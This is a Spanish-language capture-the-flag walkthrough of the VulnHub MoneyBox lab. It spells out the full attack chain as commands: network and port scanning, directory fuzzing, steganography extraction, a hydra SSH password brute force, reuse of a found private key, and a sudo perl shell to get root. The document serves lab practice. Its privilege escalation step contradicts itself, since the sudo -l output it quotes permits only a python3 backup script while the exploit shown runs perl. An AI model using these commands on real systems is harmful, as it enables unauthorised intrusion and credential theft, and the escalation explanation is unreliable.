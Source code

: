 ```yaml
---
title: "MoneyBox — Walkthrough"
author: "Pxlymxrph"
level: "Easy"
target: "VulnHub - MoneyBox"
url: "https://www.vulnhub.com/entry/moneybox-1,653/"
date: 2025-09-23
tags: [ctf, vulnhub, linux, ssh, privesc, steganography, enum]
---
```


# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## Evidencias
Imágenes en `Images/`:
![20.png](Images/20.png)
![21.png](Images/21.png)
![1.png](Images/1.png)
![1.2.png](Images/1.2.png)
![2.png](Images/2.png)
![3.png](Images/3.png)
![4.png](Images/4.png)
![5.png](Images/5.png)
![6.png](Images/6.png)
![7.png](Images/7.png)
![9.1.png](Images/9.1.png)
![10.png](Images/10.png)
![11.png](Images/11.png)
![12.png](Images/12.png)
![22.png](Images/22.png)
![13.png](Images/13.png)
![15.png](Images/15.png)
![17.png](Images/17.png)
![16.png](Images/16.png)
![18.png](Images/18.png)

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `curl -I http://192.168.1.78` (confirma Linux). (Evidencia: `1.png`)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  
(Evidencia: `1.2.png`, `2.png`)

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```

Página estática con mensaje de “hacked”. Primer vistazo sin info útil. (Evidencia: `3.png`)

## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/wordlists/dirb/common.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta. (Evidencia: `4.png`, `5.png`)

## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista. (Evidencia: `6.png`)

## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```

(Evidencia: `7.png`)

## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**. (Evidencia: `9.1.png`)

## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida. (Evidencia: `10.png`)

> Nota: fuerza bruta sólo en entornos autorizados/CTF.

## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
cat /etc/passwd | grep "/bin/bash"
```

(Evidencia: `11.png`, `12.png`)

## 10) Movimiento lateral hacia `lily`
En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag. (Evidencia: `22.png`, `13.png`, `15.png`)

## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```

Consigo shell root y la flag final. (Evidencia: `17.png`, `16.png`, `18.png`)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/wordlists/dirb/common.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.

